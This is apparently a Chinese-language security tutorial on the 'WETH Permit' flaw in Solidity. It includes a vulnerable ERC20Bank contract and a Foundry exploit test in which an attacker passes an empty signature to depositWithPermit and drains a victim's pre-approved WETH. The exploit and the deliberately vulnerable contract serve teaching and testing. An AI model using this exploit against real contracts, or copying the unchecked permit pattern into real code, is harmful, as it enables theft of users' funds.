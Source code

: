 # WETH Permit

## 弱点

大部分ERC20合约有`Permit`函数来提供spender的签名检测。

但是`WETH`合约并没有。而当调用`WETH`的`permit`函数的时候，这个过程并不会发生任何错误。因为`fallback`函数的存在，当调用`permit`函数的时候，WETH会直接调用`fallback`函数。



## 例子

1.Alice对ERC20Bank给予无限授权以支出WETH

2.Alice调用deposit，存入1个WETH到ERC20Bank

3.攻击者调用depositWithPermit，传递一个空的签名并将所有来自Alice的代币转入ERC20Bank，将存款记入攻击者名下。

4.攻击者提取所有记在他名下的代币。



## 相关合约代码

**ERC20Bank**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "./IERC20Permit.sol";

contract ERC20Bank {
    IERC20Permit public immutable token;
    mapping(address => uint256) public balanceOf;

    constructor(address _token) {
        token = IERC20Permit(_token);
    }

    function deposit(uint256 _amount) external {
        token.transferFrom(msg.sender, address(this), _amount);
        balanceOf[msg.sender] += _amount;
    }

    function depositWithPermit(
        address owner,
        address recipient,
        uint256 amount,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s
    ) external {
        token.permit(owner, address(this), amount, deadline, v, r, s);
        token.transferFrom(owner, address(this), amount);
        balanceOf[recipient] += amount;
    }

    function withdraw(uint256 _amount) external {
        balanceOf[msg.sender] -= _amount;
        token.transfer(msg.sender, _amount);
    }
}

```



**Exploit**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.24;

import {Test, console2} from "forge-std/Test.sol";
import {WETH} from "../../../src/hacks/weth-permit/WETH.sol";
import {ERC20Bank} from "../../../src/hacks/weth-permit/ERC20Bank.sol";

contract ERC20BankExploitTest is Test {
    WETH private weth;
    ERC20Bank private bank;
    address private constant user = address(11);
    address private constant attacker = address(12);

    function setUp() public {
        weth = new WETH();
        bank = new ERC20Bank(address(weth));

        deal(user, 100 * 1e18);
        vm.startPrank(user);
        weth.deposit{value: 100 * 1e18}();
        weth.approve(address(bank), type(uint256).max);
        bank.deposit(1e18);
        vm.stopPrank();
    }

    function test() public {
        uint256 bal = weth.balanceOf(user);
        vm.startPrank(attacker);
        bank.depositWithPermit(user, attacker, bal, 0, 0, "", "");
        bank.withdraw(bal);
        vm.stopPrank();

        assertEq(weth.balanceOf(user), 0, "WETH balance of user");
        assertEq(
            weth.balanceOf(address(attacker)),
            99 * 1e18,
            "WETH balance of attacker"
        );
    }
}

```

